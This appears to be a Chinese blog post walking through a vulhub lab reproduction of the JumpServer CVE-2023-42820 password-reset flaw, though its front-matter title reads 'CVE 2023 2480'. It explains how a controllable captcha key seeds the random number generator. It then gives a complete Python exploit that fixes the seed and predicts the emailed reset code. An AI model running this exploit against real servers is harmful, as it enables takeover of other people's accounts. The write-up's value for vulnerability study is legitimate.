

+++
title = 'CVE 2023 2480'
date = 2024-05-21T14:41:04+08:00
draft = false
+++

## 介绍

JumpServer是使用 Python / Django 进行开发，遵循 Web 2.0 规范的全球首款完全开源的堡垒机软件。因其开源，无插件，Web界面美观，操作方便，分布式，符合4A规范等特点，被很多企业广泛用于内部资产（物理机，云主机等）的管理。
CVE-2023-42820通过可控的伪随机数播种，构造随机数调用过程，计算出重置密码后的验证码，从而实现任意账号密码重置。

## 环境搭建

下载https://github.com/vulhub/vulhub/blob/master/jumpserver/CVE-2023-42820/，修改config.env的DOMAINS=[你的ip:端口]


然后直接docker compose，注意这里要启动docker服务、要安装了docker-compose

```
docker compose up -d
```

这里我虽然写了8888还是在8080，感觉并不用写端口，因为我看docker也没做映射


好的，做了实验还是得填8080，大概是后端的端口，想改可能还要同时改env里的 `CORE_HOST=http://127.0.0.1:8080`

用admin：admin直接登陆http://your-ip:8080即可

## 漏洞利用

可以看到

Patched versions>= v2.28.19, >= v3.6.5

在3.6.5和2.28.19都有一个叫做fix: 修复 random error的commit


在jumpserver中，按照下图逻辑进行验证


这里使用了django-simple-captcha实现验证码部分，

可以看到用了一个key，而且还提示了其他用这个部分的同学不要用同一个key来生成图片。

在url.py里可以看到这个key就是跟在后面的字符串
这个key在url里，是可控的，类似这样。

`http://10.207.139.20:8080/core/auth/captcha/image/4cbbebb2305a4ef0d0e1242c352e288073537a7d/`

在网络服务中，接收用户交互的线程并不唯一，而random.seed()的作用只在当前线程，因此需要将我们控制的key作用在所有线程，所以exp的第一步为重放爆破，将我们控制的key大量发送get请求，使得所有服务器接收的线程均设置random.seed()。然后通过api调用，定位到忘记密码流程。


使用form_invalid方法对用户名是否存在进行验证，并通过random_string方法生成一个长度为36的token，带着token跳转到forgot-password页面。

再通过api定位发送验证码的调用函数


使用该类下create函数，通过random_string方法生成一个长度为6的验证码并进行发送

看下来这个random.seed()是作用于全流程的，所以我们需要考虑的是


返回一开始分析的captcha_image函数，该函数控制图片验证码生成，渲染，在每次的忘记密码找回时，均先调用该函数生成图片验证码，用户输入正确的用户名和验证码，才能跳转下一步，我们需要明确在该函数部分调用了几次random类的函数。

从头梳理，在django-simple-captcha里直接搜索random,可以找到


是旋转字符的，因为生成的captcha都是4个字符（8、*、3、=）


所以调用4次random.randrange(),在settings.py里也可以找到对应的定义，range是（-35，35）


还有noisy_function中


noizy_dot也用到了random，用了 `range(int(size[0]*size[1]*0.1))`次，

在jumpserver中可以看到capcha的大小是180*38，采用noise_dot的噪声算法


所以大概用了这些random

```python
for i in range(4):
    random.randrange(-35,35)

for j in range(int(180*38*0.1)):
    random.randint(0, 180)
    random.randint(0, 38)
```


于是得到exp

```python
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin

logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'


def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])

    while True:
        password = list(random.choice(chars) for i in range(length))
        for k, v in kwargs.items():
            if v and not (set(password) & set(args_string_map[k])):
                # 没有包含指定的字符, retry
                break
        else:
            if not can_startswith_special_char and password[0] in args_string_map['special_char']:
                # 首位不能为特殊字符, retry
                continue
            else:
                # 满足要求终止 while 循环
                break

    password = ''.join(password)
    return password


def nop_random(seed: str):
    random.seed(seed)
    for i in range(4):
        random.randrange(-35, 35)

    for p in range(int(180 * 38 * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)


def fix_seed(target: str, seed: str):
    def _request(i: int, u: str):
        logging.info('send %d request to %s', i, u)
        response = requests.get(u, timeout=5)
        assert response.status_code == 200
        assert response.headers['Content-Type'] == 'image/png'

    url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
    for idx in range(30):
        _request(idx, url)


def send_code(target: str, email: str, reset_token: str):
    url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
    response = requests.post(url, json={
        'email': email,
        'sms': '',
        'form_type': 'email',
    }, allow_redirects=False)
    assert response.status_code == 200
    logging.info("send code headers: %r response: %r", response.headers, response.text)


def main(target: str, email: str, seed: str, token: str):
    fix_seed(target, seed)
    nop_random(seed)
    send_code(target, email, token)
    code = random_string(6, lower=False, upper=False)
    logging.info("your code is %s", code)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('-t', '--target', type=str, required=True, help='target url')
    parser.add_argument('--email', type=str, required=True, help='account email')
    parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
    parser.add_argument('--token', type=str, required=True, help='account reset token')

    args = parser.parse_args()
    main(args.target, args.email, args.seed, args.token)

```

具体来说，就是通过发送30个都发送带有对应seed的验证码生成请求来使每个线程的seed都为我们所设定的seed,此时服务端每个线程的random函数都是经过了一轮之前分析过得random操作后的状态，通过调用nop_random，我们本地的random状态和服务端的random状态是一致的，send_code方法和jumpserver的UserResetPasswordSendCodeApi中的code一致，由于我们本地和服务端状态一致，所以我们本地与运行send_code和服务端运行send_code也是一样的，生成的code也就是一样的了。


### 参考

https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw
